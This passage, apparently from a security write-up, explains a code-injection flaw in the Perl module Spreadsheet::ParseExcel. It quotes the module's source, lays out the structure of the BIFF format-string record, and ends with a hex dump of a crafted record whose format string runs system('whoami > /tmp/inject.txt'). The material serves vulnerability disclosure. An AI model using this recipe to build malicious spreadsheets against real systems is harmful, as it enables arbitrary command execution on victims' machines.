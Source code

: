 After that, a corresponding handler for record type is used to extract that BIFF record data.
https://github.com/jmcnamara/spreadsheet-parseexcel/blob/19ea68d2ebf640e06df4f6937fcb43d76a5ec96b/lib/Spreadsheet/ParseExcel.pm#L576-L580

```perl
if ( defined $self->{FuncTbl}->{$record} && !$workbook->{_skip_chart} )
{
		$self->{FuncTbl}->{$record}
			->( $workbook, $record, $record_length, $record_header );
}
```

Format string is handled by `_subFormat`, with `opCode = 0x41E` 
https://github.com/jmcnamara/spreadsheet-parseexcel/blob/19ea68d2ebf640e06df4f6937fcb43d76a5ec96b/lib/Spreadsheet/ParseExcel.pm#L1563-L1585
```perl
sub _subFormat {

    my ( $oBook, $bOp, $bLen, $sWk ) = @_;
    my $sFmt;

    if ( $oBook->{BIFFVersion} <= verBIFF5 ) {
        $sFmt = substr( $sWk, 3, unpack( 'c', substr( $sWk, 2, 1 ) ) );
        $sFmt = $oBook->{FmtClass}->TextFmt( $sFmt, '_native_' );
    }
    else {
        $sFmt = _convBIFF8String( $oBook, substr( $sWk, 2 ) );
    }

    my $format_index = unpack( 'v', substr( $sWk, 0, 2 ) );

    # Excel 4 and earlier used an index of 0 to indicate that a built-in format
    # that was stored implicitly.
    if ( $oBook->{BIFFVersion} <= verBIFF4 && $format_index == 0 ) {
        $format_index = keys %{ $oBook->{FormatStr} };
    }

    $oBook->{FormatStr}->{$format_index} = $sFmt;
}
```

I wasn't sure which BIFF version being used in my .xls file but according to the data in the binary file, it should match with the `else` case (> `verBIFF5`).

Structure of format string record in newer BIFF versions should be
**1E 04 \[record length - 2 bytes\] \[format string index - 2 bytes\] \[format string length - 1 byte\] \[string flags - 2 bytes\] \[format string content\]**

By following the correct structure, I can inject any format string into the .xls file.

The actual BIFF record for format string I injected in the PoC (format string index is `\x00\xa5`)
```
00000000: 1e04 3100 a500 2c00 005b 3e31 3233 3b73  ..1...,..[>123;s
                    ^^^^
		        format string index
00000010: 7973 7465 6d28 2777 686f 616d 6920 3e20  ystem('whoami >
00000020: 2f74 6d70 2f69 6e6a 6563 742e 7478 7427  /tmp/inject.txt'
00000030: 295d 3132 33                             )]123
```

